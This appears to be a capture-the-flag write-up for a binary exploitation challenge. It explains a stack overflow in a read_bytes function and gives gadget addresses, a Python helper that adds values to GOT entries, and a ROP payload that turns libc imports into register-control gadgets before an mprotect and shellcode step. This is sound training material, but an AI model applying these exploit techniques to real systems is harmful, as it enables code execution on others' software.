



### an attempt was made

was quite fun challenge, i met it when self training via doing past ctf contest

the binary checksec:



the binary even add `seccomp` to prevent get shell, so this chall gonna be some kind of `open-read-write` challenge...

using IDA (or something), you can easliy find there is a bof at `read_bytes` function.

to solve this challenge, i used 2 this magic gadgets (you can find it via rp++):

```
0x4013f2: pop rbx ; pop rbp ; mov r12, qword [rsp+0x00] ; add rsp, 0x08 ; ret ;
0x401178: add  [rbp-0x3D], ebx ; nop  [rax+rax+0x00] ; ret ;
```

they are common add_gdget i often use. We can modify any value (by adding or subtracting) at any known address...

Also when disassemble the `read_bytes` function, i recognize that it not use `leave` intructions:



program restore registers value by adding `rsp`. This make exploit easier for us because we dont need to care about `rsp` value whenever we tamper `rbp` value (just need to write ROP directly).

the GOT is writable, so my ideas is by using those magic gadget to attack the got, adding/subtracting values at there to create some useful gadget.

i can write a modify function like this:

```python
def modify(addr, val):
	# 0x4013f2: pop rbx ; pop rbp ; mov r12, qword [rsp+0x00] ; add rsp, 0x08 ; ret ;
	# 0x401178: add  [rbp-0x3D], ebx ; nop  [rax+rax+0x00] ; ret ;
	payload = p64(0x4013f2) + p64(val & 0xffffffff) + p64(addr + 0x3d) + p64(0) + p64(0x401178)
	return payload
```

after using rp++ (again), i found some useful gadget (offset from libc base):

```python
os_pop_rdi = 0x000000000008ff1d # pop rdi ; ret
os_pop_rdx = 0x000000000008ef1b # pop rdx ; ret
os_mov_esi_dword_ptr_rsp = 0x41e35 # mov esi,  [rsp+0x00] ; add rsp, 0x08 ; ret ;
os_mov_rax_rdi = 0x69892 # mov rax, rdi ; ret ;
os_syscall_ret = 0x9cfc2 # syscall ; ret ;
```

> the `mov esi...` gadget  definitely equivalent to `pop esi; ret` LOL

my first part of payload gonna be like this

```python
# rop chain
payload = b"A" * 0x20 + p64(0)
## modify got to gadgets
payload += modify(exe.got['prctl'], os_pop_rdi - libc.symbols['prctl']) # prctl.plt -> pop rdi; ret;
payload += modify(exe.got['setvbuf'], os_pop_rdx - libc.symbols['setvbuf']) # setvbuf.plt -> pop rdx; ret;
payload += modify(exe.got['__isoc99_scanf'], os_mov_esi_dword_ptr_rsp - libc.symbols['__isoc99_scanf']) # __isoc99_scanf.plt -> pop esi; ret; ?
payload += modify(exe.got['write'], os_mov_rax_rdi - libc.symbols['write']) # write.plt -> mov rax, rdi; ret;
payload += modify(exe.got['read'], os_syscall_ret - libc.symbols['read']) # read.plt -> syscall; ret;
```

yeah i noted in there, which got entry will be modify to which gadget, if we success, our GOT table will look like this:



now we have enough value to perform any kind of exploit (control `rdi`, `rsi`, `rdx`, `rax` and `syscall`)

my solution was call `mprotect` to make `bss` region executable and prepare some shellcode there then directly `ret2shellcode`.

> i relize i can even write a orw rop chain or something using without mprotect, since i have full control of necessary register...

the full exploit can be found in the `ex.py` in the same folder...
